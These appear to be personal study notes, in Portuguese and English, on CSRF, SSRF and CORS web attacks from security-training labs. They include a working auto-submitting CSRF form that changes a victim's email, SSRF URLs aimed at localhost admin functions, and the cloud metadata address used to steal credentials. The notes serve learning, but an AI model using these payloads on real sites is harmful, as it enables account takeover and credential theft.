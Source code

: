       * Ele consiste em uma série de caracteres aleatórios, gerados a cada formulário a ser preenchido pelo usuário que é enviado pelo servidor. Após o recebimento pelo usuário, o token é checado novamente. O servidor só aceita o POST caso o CSRF Token se provar igual ao enviado inicialmente. Diferentemente do session token e dos cookies, o CSRF Token não pode ser utilizado por um hacker mal intencionado.
#Cross-site_request_forgery:  
      * O cross-site request forgery, em português falsificação de solicitação entre sites, também conhecido como ataque de um clique ou montagem de sessão, é um tipo de exploit malicioso de um website, no qual comandos não autorizados são transmitidos a partir de um usuário em quem a aplicação web confia.
      * Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they’re currently authenticated. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker’s choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application.
      https://security.love/CSRF-PoC-Genorator/ => colete essas informações no proxy do Burp Suite, você irá criar um arquivo eu deverá cadastrar um usuário de sua escolha (por exemplo) usando o header http
      ! No lab 1 de CSRF usamos o script: <html> <body> <form enctype="application/x-www-form-urlencoded" action="https://0a0600c3030c116bc0fe0af000d800af.web-security-academy.net/my-account" method="POST"> <input type="hidden" name="email" value="pwned@evil-user.net" /> </form> <script> document.forms[0].submit();</script></body> </html>

#Server-side_request_forgery:
      * SSRF stands for Server-Side Request Forgery. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.
      ! https://website.com/stock?url=https://api.website.com/api/stock/item?id=123
      ! https://api.website.com/api/stock/../user
      ! https://website.com/item/2?server=server.website.com/flag?id=9&x= (&x= to ignore the rest of the URL)
      ! https://domain/index.php?page=https://localhost/ => aqui pela URL conseguimos retornar o localhost do servidor a partir da minha máquina, confirando assim um SSRF
      ! http://localhost/admin/delete?username=carlos
      ! Tendo como exemplo o provedor de nuvem AWS, é bastante comum de se ver aplicações hospedadas em um Amazon Elastic Compute Cloud (Amazon EC2) e, com isso, atacantes acabam obtendo um meio de acessar credenciais de metadados de máquinas EC2 por meio do SSRF.
        No exemplo descrito na página Hacking The Cloud, é possível ver que a maioria das instâncias do EC2 possuem acesso ao serviço de metadados que contém informações, como endereço IP da instância, credenciais das IAM roles e o nome do security group e, esse acesso é feito por meio do endereço de IP 169.254.169.254.
        https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/
#CORS (Cross-origin resource sharing):
      * O CORS é uma política do HTTP de controle de compartilhamento de recursos entre sites, decidindo que origens serão aceitas ou rejeitadas. Resumidamente, temos o lado do cliente (por exemplo, o domínio do Github) que fará uma requisição para uma API (por exemplo, uma API do GitHub). Quando o compartilhamento de recursos é autorizado, costumamos ver no header "Access-Control-Allow-Origin:" seguido do domínio autorizado. Assim, a API determina que a origem é segura e a resposta é enviada com os recursos compartilhados. 
      ! Podemos executar um ataque do tipo CORS criando um exploit, ou script, que use CORS para obter algum dado do usuário que acessá-lo. Sendo tudo isso por meio de uma Engenharia Social, onde o(a) atacante pode elaborar um email ou outra artimanha que induzirá algum alvo acessar o exploit.
